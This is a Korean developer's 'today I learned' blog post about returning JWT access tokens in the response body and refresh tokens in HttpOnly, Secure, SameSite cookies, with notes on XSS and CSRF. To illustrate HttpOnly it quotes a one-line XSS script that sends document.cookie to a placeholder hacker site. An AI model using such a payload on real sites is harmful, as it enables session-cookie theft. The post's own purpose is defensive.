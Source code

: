 ```yaml
---
title: "[TIL] JWT 반환(Access,Refresh)"
author: heesu
date: 2024-04-14 00:43:00+0900
categories: [TIL]
tags: []
---
```


### ISSUE1 리프레시 토큰을 클라이언트에게 어떻게 형식으로 반환해야할까?

❓**문제상황**

- 처음에는 access token과 refresh token을 responsebody에 담아 같이 반환했다.
- 이 방식은 AccessToken 탈취를 방지하기 위해 도입한 RefreshToken의 목적을 무색하게 만들 수 있다고 판단
- 그런데 `responsebody에 반환`할 경우 `xss`공격에 취약하다
  - 응답 메시지 바디나 헤더로 반환할 경우, Local Storage나 Session Storage에 저장한다. 이는 브라우저에서 JS를 통해서 접근할 수 있기 때문에 **XSS**공격에 취약하다
- `쿠키로 반환`하면 어떻게 될까?
  - 쿠키도 브라우저에서 JS를 통해 접근가능하여 XSS공격에 취약하다.
  - But!!! `쿠키의 HttpOnly기능`을 통해 JS접근을 막을 수 있다. 그렇다면 어느정도 xss공격을 방어할 수 있을 것이다.
  - However!! 쿠키는 `CSRF공격에도 취약`하다. 쿠키 생성시 자동으로 헤더에 포함되기 때문이다.
  - Nevertheless!!! `쿠키의 SameSite기능`을 이용하면 100%방어율은 아니지만 어느정도 공격에 대비할 수 있다.

[참고](https://www.springcloud.io/post/2022-02/jwt-cookie/#gsc.tab=0)

❗**해결방법**

- responsbody보다 더 많은 보안 기능을 제공하는 **refresh Token**을 secure 쿠키로, http header에담고 **access token**은 프론트엔드에서 처리할 수 있도록 responseBody에 담아 보내기로 했다.
  - `HttpOnly = true`

      ```jsx
      <script> location.href = '해커사이트주소?cookie=' + document.cookie </script>
      ```

    - 브라우저에서 쿠키에 접근못하게 하는 기능으로 위와 같은 xss공격을 방어할 수 있다.
    - 그러나 네트워크를 감청하여 쿠키 탈취가 가능하다.
  - `Secure = true`

      ```jsx
      <img src="http://....png" />
      ```

    - https를 사용하여 쿠키를 암호화하는 기능으로 위와 같은 암호화되지 않은 토큰 탈취를 방어할 수 있다.
  - `SameSite`
    - Cross-Site 요청에서 사용한 메서드와 해당 옵션의 조합을 기준으로 서버의 쿠키 전송 여부를 결정
    1. **Strict** : **Same-Site** 인 경우에만 쿠키를 전송
    2. **Lax** : **Cross-Site 요청의 GET 메서드** 일 경우만 쿠키를 전송
    3. **None** : Secure 옵션이 true면 항상 쿠키 전송
  
- 쿠키의 **SameSite기능을 사용**하기 위해서는 Cookie가 아닌 **ResponseCookie를 사용**해야 했다.
  - ResponseCookie 는 Cookie의 확장판

<br>

**결론**

- AccessToken은 ResponseBody에, RefreshToken은 쿠키로 반환하는 방식을 최종적으로 선택
-  추후에는 OTP와 같은 2FA를 도입하여 보안 수준을 높이는 방향으로 디벨롭해보자!!!!
